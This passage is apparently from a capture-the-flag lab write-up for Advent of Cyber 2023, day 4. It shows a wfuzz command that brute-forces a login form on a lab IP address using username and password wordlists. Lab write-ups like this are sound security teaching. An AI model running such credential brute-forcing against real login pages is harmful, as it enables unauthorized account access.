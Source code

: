    Now we need to setup our `wfuzz` command. We just need to know what the error message is when logging in with incorrect credentials.

   ![Error Message](Pictures/Advent_Of_Cyber_2023_D4_Error_Message.png)

   With this we can use `wfuzz` to find our login credentials.

   ```cmd
   wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.95.168/login.php -d "username=FUZZ&password=FUZ2Z"
   ```

   ![Password](Pictures/Advent_Of_Cyber_2023_D4_Password.png)

   ><details><summary>Click for answer</summary></details>
